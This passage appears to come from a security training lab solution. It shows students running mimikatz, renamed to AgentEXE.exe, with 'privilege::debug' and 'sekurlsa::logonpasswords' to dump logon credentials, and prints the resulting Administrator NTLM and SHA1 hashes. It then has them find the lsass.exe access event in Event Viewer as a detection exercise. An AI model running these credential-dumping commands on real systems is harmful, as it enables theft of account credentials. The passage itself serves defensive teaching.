 With the changes applied, students need to dump password hashes using` mimikatz.exe` (which has been renamed to `AgentEXE.exe`):

Code: cmd

```cmd
cd C:\Tools\Mimikatz
AgentEXE.exe
privilege::debug
sekurlsa::logonpasswords
```

```shell
Microsoft Windows [Version 10.0.19044.1826]
(c) Microsoft Corporation. All rights reserved.

C:\Tools\Sysmon>cd C:\Tools\Mimikatz

C:\Tools\Mimikatz>AgentEXE.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY \`gentilkiwi\` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 506354 (00000000:0007b9f2)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 6/7/2023 7:33:52 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : 5e4ffd54b3849aa720ed39f50185e533
         * SHA1     : e6cd3020bb3da2cd8f02dfeaf5c9f6d50812156b
```

The output reveals the NTLM hash of the Administrator is `5e4ffd54b3849aa720ed39f50185e533`.

Additionally, students should locate this event in Event Viewer, filtering by ID 10 and using the Find feature to look for `lsass.exe`:

![[HTB Solutions/CDSA/z. images/4816f01b4a33c2bb3337e9c000123d4e_MD5.jpg]]
